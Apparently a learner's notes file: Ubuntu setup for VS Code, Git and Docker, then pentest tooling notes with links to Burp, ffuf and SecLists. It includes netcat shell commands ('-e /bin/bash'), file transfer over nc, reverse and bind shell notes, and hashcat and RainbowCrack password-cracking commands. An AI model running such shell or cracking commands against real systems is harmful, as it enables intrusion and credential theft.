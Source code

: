 table of contents


# Installing Visual Studio Code

Download the .deb package here
https://go.microsoft.com/fwlink/?LinkID=760868

Install it with
sudo apt install ./"filename".deb

Then you can launch it from the apps manager of ubuntu (Windows key) or running "code" in the cli


# Installing Git

sudo apt install git-all


# Installing Docker

First, uninstall any default or old versions

sudo apt-get remove docker docker-engine docker.io containerd runc

Then

sudo apt-get update
sudo apt-get install \
    ca-certificates \
    curl \
    gnupg \
    lsb-release

Adding Dockers GPG key

curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg

Add the Docker packages repository to apt sources.list

echo \
    "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
    $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

Finally, install Docker engine

sudo apt-get update
sudo apt-get install docker-ce docker-ce-cli containerd.io

# Running The Project

Simply run "docker-compose up -d" in the project root

# Github Actions

Simply go to your repository settings, then actions tab and add a new self-hosted runner.

https://docs.github.com/es/actions/learn-github-actions/workflow-syntax-for-github-actions


# CVEDetails

https://www.cvedetails.com/


# Netcat

**Creates the simplest listener/server -> client connection**

listener:

nc –lvp 4444

client:

nc "server ip" 4444 (To specify shell, –e /bin/bash)



Transfer file

server
cat file.zip | nc -lvp 1234

client
netcat "server ip" 1234 > file.zip

or:

server
nc "client ip" 1234 < file.zip

client
nc -lvp 1234 > file.zip


Test port status

nc -zv "host" "port"

## Reverse Shell

- Listener runs on the attacker
- Noone else can connect to the target
- Relies on egress traffic (Usually egress ports like 80 or 443 are open)
- No need of NAT/PAT

## Bind Shell

- Listener runs on the target
- Relies on ingress traffic (Usually ingress ports are closed)
- Requires NAT/PAT (The private port could be mapped to a different public port)

**Remember: Ports Under 1024 are privileged**

# HaveIbeenPwned

https://haveibeenpwned.com/


# Seclists

The repository can be found here

https://github.com/danielmiessler/SecLists

Simply follow the instructions and unzip it in a directory you like

# Burp

Download from here https://portswigger.net/burp/releases/professional-community-2021-10-2?requestededition=community

# FFUF

The project can be found here

https://github.com/ffuf/ffuf

Grab a release file (compiled bin) for your OS and run it

There's a handy cheatsheet that will help you using it

https://cheatsheet.haax.fr/web-pentest/tools/ffuf/

# HTTP Status Codes

https://thecontentworks.uk/http-status-codes-cheat-sheet/


# Hashcat

Download from here https://hashcat.net/hashcat/

Basic examples

Attack-          | Hash- |
Mode             | Type  | Example command
==================+=======+==================================================================
Wordlist         | $P$   | hashcat -a 0 -m 400 example400.hash example.dict
Wordlist + Rules | MD5   | hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule
Brute-Force      | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a
Combinator       | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict

# RainbowCrack

Download from here https://project-rainbowcrack.com/index.htm

Generating md5 rainbow chains for passwords using the charset [a-z,0-9] with lenght between 1 and 7 characters

rtgen md5 loweralpha-numeric 1 7 0 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 1 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 2 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 3 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 4 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 5 3800 33554432 0

Now generate the rainbow table (Array of rainbow chains)

rtsort .

Finally crack some hashes

rcrack "path to rainbow tables dir" -l "hash list file"

